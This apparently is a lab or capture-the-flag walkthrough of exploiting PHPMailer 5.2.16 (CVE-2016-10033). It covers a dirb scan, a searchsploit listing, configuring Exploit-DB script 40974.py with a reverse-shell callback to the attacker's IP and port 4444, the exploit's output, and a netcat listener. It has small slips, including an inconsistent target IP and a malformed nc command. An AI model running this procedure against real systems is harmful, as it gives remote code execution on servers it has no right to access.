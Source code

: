 We need to enumerate more...

(check dirb.scan for more information)

dirb http://192.168.254.103/mailer/examples/

A dirb scan gave us an interesting view, which is a PHPMailer version which is 5.2.16

We run searchsploit to see what we could make us.
```
PHPMailer 1.7 - 'Data()' Function Remote Denial of Service                                                                  | php/dos/25752.txt
PHPMailer < 5.2.18 - Remote Code Execution (Bash)                                                                           | php/webapps/40968.php
PHPMailer < 5.2.18 - Remote Code Execution (PHP)                                                                            | php/webapps/40970.php
PHPMailer < 5.2.18 - Remote Code Execution (Python)                                                                         | php/webapps/40974.py
PHPMailer < 5.2.19 - Sendmail Argument Injection (Metasploit)                                                               | multiple/webapps/41688.rb
PHPMailer < 5.2.20 - Remote Code Execution                                                                                  | php/webapps/40969.pl
PHPMailer < 5.2.20 / SwiftMailer < 5.4.5-DEV / Zend Framework / zend-mail < 2.4.11 - (AIO) 'PwnScriptum' Remote Code Execut | php/webapps/40986.py
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                                                                    | php/webapps/42221.py
WordPress PHPMailer 4.6 - Host Header Command Injection (Metasploit)   
```
We decide to use the Python version (40974.py).

We edit the following parameters:
target = 192.168.254.105/contact <- our target
payload = 192.168.254.102 <- our local ip : 4444 <- the port we will listen to

After that, we save the file then run our program.

python 40974.py
```
_____________________________________________________________________________________
 █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ 
██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗
███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝
██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗
██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║
╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝
      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com
 Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski

[+] SeNdiNG eVIl SHeLL To TaRGeT....
[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D
_____________________________________________________________________________________
```
Success.
We run: nc lvp -4444
